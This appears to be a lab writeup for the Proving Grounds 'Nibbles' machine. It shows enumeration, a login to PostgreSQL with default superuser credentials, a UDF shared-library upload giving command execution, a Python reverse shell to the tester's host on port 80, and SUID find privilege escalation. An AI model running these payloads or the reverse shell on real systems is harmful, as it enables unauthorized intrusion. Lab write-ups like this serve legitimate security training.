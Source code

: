 ```yaml
---
description: Writeup for Nibbles from Offensive Security Proving Grounds (PG)
---
```


# Nibbles

## Nibbles

### Service Enumeration

`nmapAutomator.sh -H 192.168.163.47 -t full`

![](../../.gitbook/assets/1540aa15138b4fb6b87da0c16f81a23b.png)

`nmapAutomator.sh -H 192.168.163.47 -t vulns`

* Anonymous FTP not allowed

### Subdirectory Enumeration

`gobuster dir -u http://192.168.163.47/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -k -x .txt,.html --threads 50`

### PostgreSQL

We know the default username is `postgres`. Trying the password `postgres`, we authenticate successfully.

![](../../.gitbook/assets/e98a3452c71040f3891fcbbd9718e443.png)

Note that we are a privileged account, with the Superuser role.

![](../../.gitbook/assets/9de57a70204a45eb823cb8ddb8e8d026.png)

## Exploitation

Reference: [https://afinepl.medium.com/postgresql-code-execution-udf-revisited-3b08412f47c1](https://afinepl.medium.com/postgresql-code-execution-udf-revisited-3b08412f47c1)

Compile the shared library:

`gcc lib_postgresqlugcc lib_postgresqludf_sys.c -I server -fPIC -shared -o udf64.so`

Generate the `.psql` payload:

```
xxd -p udf64.so | tee udf.txt
x=0
while read line; do echo "select lo_put(PLACEHOLDER, $x, '\\\x$line');" >> u.psql; x=$((x+30)); done < udf.txt
```

Create and get the ID of the object:

![](../../.gitbook/assets/f221361282f64e6b9013b8836cd55bd5.png)

Replace PLACEHOLDER in `u.psql` with 16385.

![](../../.gitbook/assets/b47d67741d444352b2a7222c58f43ad0.png)

Deliver the payload: `psql -h 192.168.163.47 -p 5437 -U postgres -d postgres -f u.psql`

`select lo_export(16385, '/tmp/exploit.so');`

![](../../.gitbook/assets/d6134a3d60044c4196eeebec2e0b8166.png)

`create or replace function exec(char) returns char as '/tmp/exploit.so','sys_eval' language c strict;`

![](../../.gitbook/assets/99232dceadc64149a730060ed5230aff.png)

At this point we have created a function that allows us to execute arbitrary commands.

Verify Python is installed: `select exec('which python');`

![](../../.gitbook/assets/ace8f49532204b00bbfdf6bcf49d9d09.png)

**Note: the only port that works is port 80. **Since the web application would be communicating with the PostgreSQL service through port 80, port 80 is likely whitelisted.

```
select exec('python -c ''import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.163",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")''');
```

![](../../.gitbook/assets/4d1ba1f89f5a4ae38d82aa3c092c4b71.png)

![](../../.gitbook/assets/73d3433cdccf4cceb8609fda74080f53.png)

### Privilege Escalation

We can use LinPEAS to enumerate.

![](../../.gitbook/assets/014387c27ed84d63ad418bed672c6845.png)

We see that the `find` binary has the SUID bit set.

Reference: [https://gtfobins.github.io/gtfobins/find/](https://gtfobins.github.io/gtfobins/find/)

We can leverage this to run `/bin/sh` with elevated privileges.

![](../../.gitbook/assets/7d5d16d938ef42eba9a1676b91079876.png)

![](../../.gitbook/assets/84c7b92b17e04ffb8e525f5f81066c77.png)
